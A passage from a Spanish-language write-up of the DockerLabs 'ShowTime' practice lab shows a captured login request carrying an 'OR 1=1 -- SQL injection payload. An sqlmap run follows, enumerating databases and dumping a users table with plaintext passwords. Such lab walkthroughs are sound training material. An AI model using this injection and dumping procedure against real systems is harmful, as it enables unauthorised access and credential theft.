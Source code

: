 Seguimos copiando la petición entera y la guardándola en un archivo de texto.
```bash
┌──(kali㉿kali)-[~/…/DockerLabs/Facil/9-ShowTime/content]
└─$ cat burp.txt             
POST /login_page/auth.php HTTP/1.1
Host: 172.17.0.3
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.17.0.3
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.17.0.3/login_page/index.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

usuario=%27OR+1%3D1+--&contrase%C3%B1a=%27OR+1%3D1+--
```

Y por último usando **SQLMap**, automatizaremos la explotación de SQL Injection con los siguientes parámetros:
- **-r burp.txt**: especificamos el archivo que alberga la petición que SQLMap usará para ejecutar sus injecciones.
- **-dbs**: sirve para enumerar las bases de datos encontradas.
- **--dump**: esta función muestra el vuelco de la información encontrada en las tablas.
```bash
┌──(kali㉿kali)-[~/…/DockerLabs/Facil/9-ShowTime/content]
└─$ sqlmap -r burp.txt -dbs --dump 
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.8.7#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:52:14 /2024-08-25/

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] users

Database: users
Table: usuarios
[3 entries]
+----+----------------------+----------+
| id | password             | username |
+----+----------------------+----------+
| 1  | 123321123321         | lucas    |
| 2  | 123456123456         | santiago |
| 3  | MiClaveEsInhackeable | joe      |
+----+----------------------+----------+

[*] ending @ 20:54:18 /2024-08-25/
```